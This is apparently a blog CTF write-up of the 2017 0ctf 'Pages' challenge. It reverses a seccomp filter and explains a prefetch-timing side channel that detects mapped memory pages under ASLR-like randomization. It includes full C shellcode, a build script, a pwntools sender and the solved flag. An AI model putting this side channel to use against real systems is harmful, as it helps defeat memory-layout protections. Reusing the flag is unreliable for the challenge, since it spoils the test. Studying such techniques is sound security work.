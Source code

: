 ```yaml
---
layout: post
title: 0Ctf - Pages Writeup
description: "Writeup for the 2017 0ctf Pages pwning challenge"
modified: 2016-03-15
tags: [writeup, ctf, pwn, timing attack]
comments: true
share: true
categories: [writeups]
---
```


First of all this has been a really enjoyable challenge kudos to the creator. The provided binary is pretty simple, it reads 64 random bits from /dev/urandom then forks and in the child process maps 64 + 2 regions. The offset of the first 64 mmaped pages depends on random bits and it is calculated in the following way: 

```
addr = base + 0x2000 * i + 0x1000 * random[i]
```

The 65th mapped page is on a fixed address and functions as a "shared memory" between parent and child process, more on it later. There are also 4 pages mapped on the 0x400000000 address with r-x permissions, this area is going to hold our shell code.

After the pages are mapped the random bits are erased from the memory. Then the program goes on and reads our shell code to the executable page and jumps to it. Sounds perfect but unfortunately, before all of these shenanigans it calls some magical mystical *prctl* functions that are used to set up some really unwelcomed seccomp rules. Meanwhile the parent process *ptraces* the child and after the child breaks (calls int 3) it pokes its memory with
*ptrace*. The poked memory is compared to the original random bytes and if they match the flag is printed. 

So the goal of the challenge is to figure out the original random bytes based on the position of the 64 mmaped pages and then write the solution to the predefined address.

I began solving this challenge by further investigating the seccomp rules set by the *prctl* call, to gain a better idea of my shell code's possible capabilities. The seccomp rules are defined by a so called filter program similar to the berkely packet filter programs. The byte code of this program is passed to the *prctl* call and then the kernel parses it (see [man seccomp 2](http://man7.org/linux/man-pages/man2/seccomp.2.html)). These rules can be found in the binary's bss and they had to be reversed.
The most important structures are the following:

```c
struct sock_fprog {
   unsigned short      len;    /* Number of BPF instructions */
   struct sock_filter *filter; /* Pointer to array of
								  BPF instructions */
};
struct sock_filter {            /* Filter block */
   __u16 code;                 /* Actual filter code */
   __u8  jt;                   /* Jump true */
   __u8  jf;                   /* Jump false */
   __u32 k;                    /* Generic multiuse field */
};
```
The structure of these programs is fairly simple, each filter entry can be treated as an instruction where the code is the actual opcode, jt and jf defines how many instructions needs to be skipped if the instruction evaluates to true or false (relative jumps) and k is the operand of these instructions. It is basically a really simple VM. Examples to write such programs and the definition of the "opcodes" are in the kernel sources (see
[bpf_common.h](http://lxr.free-electrons.com/source/include/uapi/linux/bpf_common.h) and [seccomp.c](http://lxr.free-electrons.com/source/kernel/seccomp.c)). As there were only 7 filter rules I decided to reverse them manually, it was a lot easier than it sounds, only took about 10 minutes after finding the sources. The actual rules are:

```
LD W ABS, 0, 0, 4 - load arch id
JEQ, 1, 0, 0xC000003E - test if x86_64
RET, 0, 0, 0 - ret kill immediately
LD W ABS, 0, 0, 0 - load syscall number
JEQ, 0, 1, 0x3C - test if sys_exit 
RET, 0, 0, 0x7fff0000 -ret ALLOW
RET, 0, 0, 0 - ret kill immediately
```

Basically it confirmed my worst fear that none of the syscalls are available (besides exit, but screw that).

At this point it is pretty clear what needs to be done, we have to decide if a given page is mapped in the memory without access to any syscalls. The question is how? The main problem is if we touch any unmapped page it generates a SIGSEGV so we lose. My initial idea was to set up a SIGSEGV signal handler or use a library function like [mincore](http://man7.org/linux/man-pages/man2/mincore.2.html) but the problem is that of course these all rely on different system calls. So this route was a
no go.

This left me with no other option than different side channel attacks that use timing windows to determine if memory is mapped or not. The problem itself is very similar to certain KASLR (Kernel ASLR) attacks where the memory is not accessible so timing channels are used to evaluate where certain pages are located (shout-out to my teammate [@tukan](https://twitter.com/kapteinemalje) who provided me with a bunch of valuable resources on the topic). The first attack I looked into
was the recent JS ASLR derandomization attack [AnC](https://www.vusec.net/projects/anc/), but I dismissed it quickly as it requires memory reads.

The next one on the list was [DrK](https://github.com/sslab-gatech/DrK) a KASLR derandomization attack which does exactly what I needed, it tells about a page if it is mapped or not without accessing it. The only problem is it relies on a specific hardware feature only available in some new intel CPUs called TSX (Transactional Synchronization eXtensions). The [tsx-tools](https://github.com/andikleen/tsx-tools) git repository provides tools to check if the feature is available
by using the cpuid instruction. Note that since all syscalls are disabled it is impossible to send back data, however when the int 3 is called the parent sends back a "Success" or "Failed!" message. On the other hand when the program crashes no messages is sent back. This one bit information was enough to leak the results of the test. Which failed. Unfortunately the CPU that hosted the challenge did not support the TSX feature.

My last resort was the side channel attack with the *prefetch* instruction, in essence it is a similar attack than the previous (see the [paper](https://gruss.cc/files/prefetch.pdf) and [blogpost](http://dreamsofastone.blogspot.nl/2016/02/breaking-kasrl-with-micro-architecture.html)). The prefetch instruction fetches data from the supplied address into the specified cache (for the attack Layer-2 cache is used for maximum timing differences, see prefetcht2) and it does no validity
checking at runtime. Great, but what is even better it takes longer to fetch addresses that are not mapped to physical addresses since searching all the page table entries is slower than hitting something earlier of course. 

I decided to test the concept locally and wrote a little PoC which did not work, both mapped and unmapped addresses took similar time to load. I was about to give up, when it occurred to me that pages needed to be written before they were actually mapped to physical memory. After that it was clear that a timing channel exists. I quickly turned my local PoC into a proper shell code, it is presented below:

```c
//exploit.c
#include <stdint.h>
#include "inc/rdtsc.h"

int measure_loop(char* addr, int cnt);
#define ITER_CNT 1000
int main()
{
    // get reference mapped
    char* mapped = 0x300000000;
    char* unmapped = 0x500000000;
    *(mapped + 0x400) = 'A';
    char* base = 0x200000800;
    int t_mapped = measure_loop(mapped+0x400, ITER_CNT);
    int t_unmapped = measure_loop(unmapped, ITER_CNT);
    
    int divide = t_mapped + ((t_unmapped - t_mapped)/2);
    int i = 0;
    int t_test;
    while (i < 64){
        t_test = measure_loop(base, ITER_CNT);
        mapped[i] = t_test < divide ? 0 : 1;
        i++;
        base += 0x2000;
    }
    return 0;

}
static inline uint64_t __attribute__((__always_inline__))
measure_prefetch(char* addr){
    uint64_t beg = rdtsc_beg();
	//_mm_prefetch ((void*)0x400000000, _MM_HINT_T2);
    //__asm __volatile("movabs $0x400000000, %rax; prefetcht2 (%rax)");
    __asm __volatile("mov %0, %%rax; 
        prefetcht2 (%%rax); 
        prefetcht2 (%%rax); 
        prefetcht2 (%%rax); 
        prefetcht2 (%%rax)"
            :: "m"(addr): "rax");

	return rdtsc_end()-beg;
}


int measure_loop(char* addr, int cnt)
{
    int min = 0xfffff;
    int i  = cnt;
    int val;
    uint64_t sum = 0;
	while(i--){
        val = measure_prefetch(addr);
        sum += val;
        if (val < min) min = val;

	}
    return min;
}
```

I briefly explain what it does. It first calculates a reference time for a mapped page (the "shared memory" solution page) and a surely unmapped page and calculates their average which is the reference value. Then it iterates over all the pages in question and decides whether they are mapped or not using the timing window. The measure loop does multiple iterations to eliminate jitter and returns the lowest received time. The actual measurement happens in the *measure_prefetch* function
which uses the rdtsc instruction to read the CPU time stamp register for accurate time indication. The actual source code of the rdtsc.h is stolen from [here](https://github.com/sslab-gatech/DrK/blob/master/common/rdtsc.h). There are multiple prefetcht2 calls because the gcc inline asm register clobbering creates an overhead (four mov instructions) that could mess up the results. 
The output of each decision is written to the "shared memory" which is later checked by the parent.

I used the following bash script to compile the shell code and get the raw binary code:

```bash
#!/bin/bash
if [ "$1" != "" ]; then
    gcc -nostdinc -fno-stack-protector -fno-common -O0 -fomit-frame-pointer  -static -I./inc -c $1 -o payload.o
    objcopy --only-section=.text --output-target binary payload.o payload.bin
else
    echo "Needs c source as argument"
fi
```

And this little python script to send the payload to the server:

```python
from pwn import *
if __name__ == "__main__":
    c = remote(PORT, IP)
    payload = asm("ret")
    with open('payload.bin') as f:
        payload = f.read()
    
    #print hexdump(payload)
    #print disasm(payload)
    c.send(p32(len(payload))+payload)

    print c.recv()
    c.interactive()
```

And to my greatest surprise the shell code worked like a charm, it gave me the flag on the first run. I have really enjoyed working on this challenge as it was quite different than the usual memory corruption pwn tasks.

```
flag{rand0mPage_randomFl4g}
```
